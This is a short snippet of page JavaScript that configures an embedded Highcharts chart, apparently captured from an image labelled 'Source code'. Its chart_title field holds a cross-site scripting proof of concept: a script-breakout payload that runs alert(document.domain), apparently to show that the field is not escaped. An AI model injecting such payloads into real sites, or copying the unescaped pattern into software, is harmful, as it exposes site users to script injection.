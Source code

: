 <script type='text/javascript'>
      jQuery(function($) {
        var loadChart = function() {
          $('#embedded-chart').highcharts({
            height: '100%',
            dataUrl: '/public/charts/jwBDr0K0WhZ/data.json',
            render: true,
            fluid: true,
            loadingOverlay: true,
            snappable: true,
            chart_title: "</script><script>alert(document.domain)</script>",
            liveChart: false,
            dataApiUrl: '',
            zoom_url: '',
            dataApiField: '',
            addToDashboard: true,
            embeddable: true
          });
        };
        jQuery.rpm.highcharts.registerRender(loadChart);
      });
    </script>
